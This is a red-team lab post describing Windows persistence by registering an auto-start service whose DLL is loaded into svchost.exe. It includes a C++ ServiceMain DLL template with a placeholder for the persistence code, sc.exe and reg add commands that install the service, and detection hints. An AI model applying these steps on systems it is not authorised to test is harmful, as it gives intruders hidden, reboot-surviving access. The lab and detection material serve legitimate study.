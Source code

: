 ```yaml
---
layout: post
title: "2024-06-18-persisting in svchost.exe with a service dll servicemain"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persisting-in-svchost.exe-with-a-service-dll-servicemain/
---
```


# Persisting in svchost.exe with a Service DLL

This is a quick lab that looks into a persistence mechanism that relies on installing a new Windows service, that will be hosted by an svchost.exe process.

## Overview

At a high level, this is how the technique works:

1. Create a service `EvilSvc.dll` DLL (the DLL that will be loaded into an `svchost.exe`) with the code we want executed on each system reboot
2. Create a new service `EvilSvc` with `binPath= svchost.exe`
3. Add the `ServiceDll` value to `EvilSvc` service and point it to the service DLL compiled in step 1
4. Modify `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` to specify under which group your service should be loaded into
5. Start `EvilSvc` service
6. The `EvilSvc` is started and its service DLL `EvilSvc.dll` is loaded into an `svchost.exe`

## Walkthrough

### 1. Compile Service DLL

First of, let's compile our service DLL as EvilSvc.dll. This DLL is going to be loaded into an `svchost.exe` as part of our service `EvilSvc` that we will register in a second:

```cpp
#include "pch.h"
#define SVCNAME TEXT("EvilSvc")

SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle;
HANDLE stopEvent = NULL;

VOID UpdateServiceStatus(DWORD currentState)
{
    serviceStatus.dwCurrentState = currentState;
    SetServiceStatus(serviceStatusHandle, &serviceStatus);
}

DWORD ServiceHandler(DWORD controlCode, DWORD eventType, LPVOID eventData, LPVOID context)
{
    switch (controlCode)
    {
        case SERVICE_CONTROL_STOP:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_SHUTDOWN:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_PAUSE:
            serviceStatus.dwCurrentState = SERVICE_PAUSED;
            break;
        case SERVICE_CONTROL_CONTINUE:
            serviceStatus.dwCurrentState = SERVICE_RUNNING;
            break;
        case SERVICE_CONTROL_INTERROGATE:
            break;
        default:
            break;
    }

    UpdateServiceStatus(SERVICE_RUNNING);

    return NO_ERROR;
}

VOID ExecuteServiceCode()
{
    stopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    UpdateServiceStatus(SERVICE_RUNNING);

    // #####################################
    // your persistence code here
    // #####################################

    while (1)
    {
        WaitForSingleObject(stopEvent, INFINITE);
        UpdateServiceStatus(SERVICE_STOPPED);
        return;
    }
}

extern "C" __declspec(dllexport) VOID WINAPI ServiceMain(DWORD argC, LPWSTR * argV)
{
    serviceStatusHandle = RegisterServiceCtrlHandler(SVCNAME, (LPHANDLER_FUNCTION)ServiceHandler);

    serviceStatus.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;
    serviceStatus.dwServiceSpecificExitCode = 0;

    UpdateServiceStatus(SERVICE_START_PENDING);
    ExecuteServiceCode();
}
```

### 2. Create EvilSvc Service

Let's now create a new service called `EvilSvc` and specify the `binPath` to be `svchost.exe -k DcomLaunch`, which will tell Service Control Manager that we want our `EvilSvc` to be hosted by `svchost.exe` in a service group called `DcomLaunch`:

```
sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
```

### 3. Modify EvilSvc - Specify ServiceDLL Path

Next, inside `HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\`, create a new value called `ServiceDll` and point it to the EvilSvc.dll service DLL compiled in step 1:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\EvilSvc.dll /f
```

```
`EvilSvc.dll` must exist in `C:\Windows\system32\EvilSvc.dll`
```

At this point, our `EvilSvc` should be created with all the right parameters as seen in the registry:

![](<../../.gitbook/assets/image (628).png>)

### 4. Group EvilSvc with DcomLaunch

As a final step, we need to tell the Service Control Manager under which service group our `EvilSvc`should load.&#x20;

We want it to get loaded in the `DcomLaunch` group, so we need to add our service name `EvilSvc` in the list of services in the `DcomLaunch` value in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`:

![](<../../.gitbook/assets/image (626).png>)

### 5. Start EvilSvc Service

We can now try loading our `EvilSvc` service:

```
sc.exe start EvilSvc
```

`EvilSvc` is now loaded into svchost.exe as part of a `DcomLauncher` services group:

![](<../../.gitbook/assets/image (630).png>)

## Detection

Below are some initial thoughts on how one could start hunting for this technique:

* Recently created services with `svchost.exe` as a `binpath`
* Listing out ServiceDLL value for all system services and looking for DLLs that are loaded from suspicious locations (i.e non c:\windows\system32):\
  `Get-ItemProperty hklm:\SYSTEM\ControlSet001\Services\*\Parameters | ? { $_.servicedll } | select psparentpath, servicedll`

![EvilSvc.dll location sticking out](<../../.gitbook/assets/image (631).png>)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function" %}
@spotheplanet
